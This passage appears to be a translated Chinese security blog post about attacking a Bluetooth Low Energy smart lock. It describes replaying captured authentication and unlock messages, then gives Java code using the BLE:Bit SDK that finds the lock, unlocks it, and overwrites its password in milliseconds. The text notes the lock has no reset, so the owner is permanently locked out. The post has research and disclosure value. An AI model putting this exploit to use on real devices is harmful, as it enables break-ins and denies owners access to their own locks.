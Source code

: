在仅连接智能锁的情况下执行重放攻击

正如我们所看到的，我们已经通过使用之前接收的完全相同的认证消息进行了认证，并且通过使用相同的“打开锁”消息解锁了不安全的智能设备。锁已被成功打开。android 应用程序无法与目标设备建立安全通信，因此信息的保密性受到影响。

# 自动解锁

锁定实现无法建立安全通信，因此可能会出现数据包重放的情况。那么，在用户无法重置密码的情况下，我们如何更改密码以拒绝实际用户的访问呢？

默认情况下，智能锁不支持密码重置。这意味着，如果未经授权的用户更改了密码，实际用户将被永远锁定。

我们遵循了前面重放攻击中描述的相同步骤。首先，我们可以通过 android 应用程序完成操作(更改密码)，然后我们重放数据，以确认密码可以被未经授权的参与者更改。由于缺少加密算法，任何持有密码的人都可以更改密码，这是有道理的。这不是一个安全问题，但是为了完成测试，这里显示了解决方案。

我们利用 BLE:Bit SDK 1.7 版开发了一个小代码片段，它可以自动找到锁，并在找到锁后立即解锁。

这并不难做到，因为使用 BLE:位 SDK 是直截了当的。

首先，我们创建一个中央回调对象。

```
CEBLEDeviceCallbackHandler devCallback = new CEBLEDeviceCallbackHandler();
```

然后，创建并配置中心:

```
ce = new CEController(startComm(prolific_ftdi), devCallback);
			ce.sendConnectionParameters(9, 13, 0, 1000,  /*Scan*/ 500/*Interval*/, 400/*Window*/, 0/*Timeout*/, /*Connection*/  50, 40, 0xffff, false);
			ce.sendBluetoothDeviceAddress("ff:55:ee:fe:4a:af", ConnectionTypesCommon.BITAddressType.STATIC_PRIVATE);
			ce.configurePairing(ConnectionTypesCommon.PairingMethods.NO_IO, null);
			ce.eraseBonds();
			ce.finishSetup();
```

以下代码行将启动 CE 并开始监听(任何)目标:

```
ce.connectNow(target, AddressType.PUBLIC_ADDR);
```

最后，下面的代码可用于使用自定义协议进行通信、身份验证、解锁，然后更改现有密码:

```
byte [] auth = new byte[] {0x55, 0x41, 0x01, 0x02, (byte)0x03, 0x00};
			checksum(auth);
			byte [] open = new byte[] {0x55, 0x10, 0x01, 0x00};
			checksum(open);
			byte [] passmode = new byte[] {0x55, 0x60, 0x00}; 
			checksum(passmode);
			byte [] setpassword = new byte[] {0x55, 0x40, 0x02, 0x61, (byte)0xfc, 0}; 
			checksum(setpassword);
			// Authenticate and open lock
			ce.writeData(auth, 0, auth.length, (short)41);
			ce.writeData(open, 0, open.length, (short)41);
			// Enter Password-change mode and alter password
			ce.writeData(passmode, 0, passmode.length, (short)41);
			ce.writeData(setpassword, 0, setpassword.length, (short)41);

			ce.disconnect(19);
			ce.terminate();
```

通过编译和运行上述 java 代码，智能锁在启用时，在不到几毫秒的时间内就被解锁，密码被更改。

请记住，还可以做得更多。例如，我们可以改变 android 应用程序中显示的电池电量。消息通过我们的 BLE 传输:位控制器和改变供应商的应用程序的电池电量指示器是小菜一碟。可以应用与已经解释的技术没有区别的相同技术。

请继续关注更多有趣的文章！

**仅供参考:你可能会在 shellwanted.com**[找到 BLE:比特](https://bit.ly/3t6NoKb)